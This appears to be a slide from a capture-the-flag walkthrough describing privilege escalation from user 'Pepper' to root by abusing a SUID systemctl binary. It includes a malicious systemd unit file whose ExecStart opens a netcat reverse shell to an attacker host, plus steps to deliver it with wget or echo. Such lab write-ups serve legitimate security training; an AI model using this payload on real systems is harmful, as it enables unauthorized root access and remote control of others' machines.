

Pepper -> root
Looking at the SUID binary systemctl on GTFO bins:
https://gtfobins.github.io/gtfobins/systemctl/#suid
Summary:
We need to create a service as Pepper that is malicious (reverse shell). Link it, and then enable it.
Google “How to make a service linux”
[Unit]
Description=Ownage
[Service]
ExecStart=/bin/sh –c “nc YOUR_IPD PORT -e /bin/bash”
[Install]
WantedBy=multi-user.target
Either write the file and send it using webserver + wget or use Echo commands to build the file line-by-line in a reverse shell.

# Priv Esc